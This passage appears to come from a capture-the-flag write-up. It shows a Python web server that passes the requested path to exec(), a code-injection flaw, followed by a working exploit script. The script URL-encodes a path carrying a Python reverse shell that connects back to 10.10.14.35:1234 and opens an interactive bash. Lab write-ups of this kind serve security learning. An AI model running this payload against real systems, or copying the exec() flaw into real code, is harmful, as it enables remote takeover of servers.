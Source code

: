        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
            if os.path.isfile(requested):
                mime = mimetypes.guess_type(requested)
                mime = (mime if mime[0] != None else "text/html")
                mime = MIMES[requested.split(".")[-1]]
                try:
                    with open(requested, "r") as f:
                        data = f.read()
                except:
                    with open(requested, "rb") as f:
                        data = f.read()
                status = "200"
            else:
                errorPage = os.path.join(docRoot, "errors", "404.html")
                mime = "text/html"
                with open(errorPage, "r") as f:
                    data = f.read().format(path)
                status = "404"
        except Exception as e:
            print(e)
            errorPage = os.path.join(docRoot, "errors", "500.html")
            mime = "text/html"
            with open(errorPage, "r") as f:
                data = f.read()
            status = "500"
        return {"body": data, "mime": mime, "status": status}
{% endhighlight %}

Payload:

~~~
root@Host-001:~# cat payloadObscurity.py
import requests
import urllib
import os

url = 'http://10.10.10.168:8080/'

path='5\''+'\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.35",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])\na=\''

payload = urllib.parse.quote(path)
print("payload")
print(url+payload)

r= requests.get(url+payload)
print(r.headers)
print(r.text)
~~~
